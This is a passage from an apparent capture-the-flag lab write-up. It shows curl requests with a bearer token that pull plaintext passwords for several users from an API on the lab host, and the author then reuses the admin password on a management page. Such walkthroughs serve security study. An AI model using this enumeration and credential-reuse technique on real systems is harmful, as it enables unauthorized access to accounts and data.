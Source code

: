 We can then access each of the users' information with ``/users/{name}`` (I came across this on google):

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Admin
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
```

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Yuri
{"name":"Yuri","password":"bet@tester87"}
```

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

That's a lot of credentials we got there! I tried to use them in the previous port under ``/management/`` and one of them worked: ``Admin:WX5b7)>/rp$U)FW``.

*Management directory holds sensitive information*

![Img](/assets/posts_details/Luke/images/management.png)
